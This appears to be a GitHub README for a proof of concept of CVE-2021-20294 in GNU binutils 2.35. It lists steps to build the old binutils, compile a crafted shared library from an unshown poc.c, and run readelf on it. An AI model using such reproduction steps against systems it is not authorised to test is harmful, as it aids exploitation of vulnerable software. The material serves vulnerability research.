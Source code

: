 
# CVE-2021-20294-POC
> Jan 21 2023, Altin (tin-z), github.com/tin-z

### Poc ###

 - download and compile

```bash
wget https://ftp.gnu.org/gnu/binutils/binutils-2.35.tar.gz && tar -xzvf binutils-2.35.tar.gz
cd binutils-2.35 && ./configure && make && cd ..
gcc -shared -fPIC poc.c -o poc.so -Wl,--version-script=poc.ver
```

 - launch the poc `./binutils-2.35/binutils/readelf -s poc.so`

![t1.jpg](./img/t1.jpg)


### details ###

 - [details.md](./details.md)


